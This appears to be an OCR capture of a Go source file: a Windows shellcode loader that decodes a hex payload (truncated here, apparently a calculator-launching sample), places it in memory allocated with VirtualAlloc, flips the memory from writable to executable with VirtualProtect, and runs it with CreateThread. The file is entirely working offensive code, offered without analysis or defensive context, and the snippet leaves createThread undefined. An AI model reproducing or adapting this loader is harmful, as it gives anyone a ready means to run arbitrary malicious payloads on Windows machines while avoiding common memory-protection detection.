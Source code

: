 ```go
  
func main() {  
	shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883...")
  
	shellcodeExec, err := windows.VirtualAlloc(  
		uintptr(0), //[in, optional] LPVOID lpAddress,  
		uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
		windows.MEM_COMMIT|windows.MEM_RESERVE, //[in] DWORD flAllocationType,  
		windows.PAGE_READWRITE, //[in] DWORD flProtect  
		)
		  
	if err != nil {  
		log.Fatal("Error while VirtualAlloc:", err)  
	}  
  
	memcpy(shellcodeExec, shellcode)  
  
	var oldProtect uint32  
	err = windows.VirtualProtect(  
		shellcodeExec, //[in] LPVOID lpAddress,  
		uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
		windows.PAGE_EXECUTE_READ, //[in] DWORD flNewProtect,  
		&oldProtect, //[out] PDWORD lpflOldProtect  
	)
	  
	if err != nil {  
		log.Fatal("Error while VirtualProtect:", err)  
	}  
  
	_, _, err = createThread.Call(  
		0, //[in, optional] LPSECURITY_ATTRIBUTES lpThreadAttributes,  
		0, //[in] SIZE_T dwStackSize,  
		shellcodeExec, //[in] LPTHREAD_START_ROUTINE lpStartAddress,  
		uintptr(0), //[in, optional] __drv_aliasesMem LPVOID lpParameter,  
		0, //[in] DWORD dwCreationFlags,  
		0, //[out, optional] LPDWORD lpThreadId  
		)  
  
	if err.Error() != "The operation completed successfully." {  
		log.Fatal("Error while CreateThread:", err)  
	}    
}  
  
// memcpy in golang from https://github.com/timwhitez/Doge-Gabh/blob/main/example/shellcodecalc/calc.go
func memcpy(base uintptr, buf []byte) {  
	for i := 0; i < len(buf); i++ {  
		*(*byte)(unsafe.Pointer(base + uintptr(i))) = buf[i]  
	}  
}
```
